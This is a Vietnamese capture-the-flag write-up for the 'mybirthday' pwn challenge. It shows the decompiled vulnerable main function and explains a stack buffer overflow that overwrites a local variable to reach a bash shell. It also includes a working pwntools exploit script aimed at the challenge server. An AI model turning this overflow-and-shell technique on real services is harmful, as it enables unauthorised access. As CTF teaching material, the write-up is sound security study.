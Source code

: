 # **mybirthday**

# Task
nc 61.28.237.24 30200

File: hpbd

## Solution

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[24]; // [esp+0h] [ebp-24h] BYREF
  int v5; // [esp+18h] [ebp-Ch]
  int *v6; // [esp+1Ch] [ebp-8h]

  v6 = &argc;
  v5 = -17829890;
  setup();
  puts("Tell me your birthday?");
  read(0, buf, 0x1Eu);
  if ( v5 == 0xCABBFEFF )
    run_cmd("/bin/bash");
  else
    run_cmd("/bin/date");
  return 0;
}
```

từ code hàm `main` ta thấy bài này để gọi được bash shell ta sẽ tiến hành overwrite biến `v5` thành giá trị `0xCABBFEFF` để pass điều kiện `if` và gọi hàm `run_cmd("/bin/bash")`

![image](https://user-images.githubusercontent.com/31529599/120056568-52e78080-c067-11eb-9d74-0d5381cb0bff.png)

`buf` là biến nhập vào 

`var_C` là biến `v5`

vậy khoảng cách sẽ là `0x24-0xc`

## Exploit
code python

```python
from pwn import *

binary  = context.binary = ELF('./hpbd')

#p = process('./hpbd')
p = remote('61.28.237.24','30200')

# padding từ biến nhập và đến v5
payload = b'A'*(0x24-0xc)

# overwrite giá trị mới vào v5
payload += p32(0xCABBFEFF)

f = open("solve.txt","wb")
p.sendline(payload)
f.write(payload)
p.interactive()
```

# Run scripts

vì server đã đóng nên mình tiến hành khai thác trên local với file flag.txt HCMUS{hpbd}

![image](https://user-images.githubusercontent.com/31529599/120056637-d73a0380-c067-11eb-9573-f792635201b5.png)

Xong !
